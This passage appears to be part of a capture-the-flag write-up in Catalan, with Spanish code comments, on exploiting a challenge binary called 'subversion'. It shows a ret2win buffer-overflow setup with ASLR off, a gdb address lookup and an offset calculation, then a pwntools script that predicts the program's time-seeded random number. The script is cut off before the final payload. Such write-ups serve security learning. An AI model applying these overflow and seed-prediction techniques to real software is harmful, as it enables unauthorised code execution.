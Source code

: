 ```bash
$ cat /proc/sys/kernel/randomize_va_space
0
```

Intentarem fer un `ret2win` cridant la funció "fantasma" `shell()`, per la qual cosa necessitarem l'adreça de memòria d'aquesta funció. Utilitzem `gdb` per obtenir-la.



```bash
$ gdb -q subversion
```

![alt text](/assets/subversion/gdb-shell.png)

Obtenim l'adreça del registre `rdi` just abans de cridar `system` i la anotem.  

```bash
0x00000000004017b4 <+8>:     lea    0xba0(%rip),%rdi        # 0x40235b
```

Ara necessitem obtenir l'offset que hem d'omplir per arribar a desbordar i afegir l'adreça del registre `rdi` que ens interessa.  

Com vam veure en la programació, la resposta de l'usuari s'emmagatzema en una variable `char buffer[64];`. En general, cada `char` s'emmagatzema en un byte, per la qual cosa són 64 bytes, però com que estem en un sistema de 64 bits, hi afegirem 8 bytes més.  

Afegim una altra funció al nostre exploit per intentar cridar la funció `shell()` i obtenir una consola bash.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
c_srand(seed)
random_number = c_rand() % 10000000

def responde():
    # Lista de respuestas
    respuestas = [
        b"1789",
        b"No violencia",
        b"Caida del Muro",
        b"Carta Magna",
        b"Lucha contra el apartheid"
    ]
    # Recorremos la lista de respuestas
    for resp in respuestas:
        # Esperamos hasta recibir "Respuesta:"
        p.recvuntil(b"Respuesta:")
```
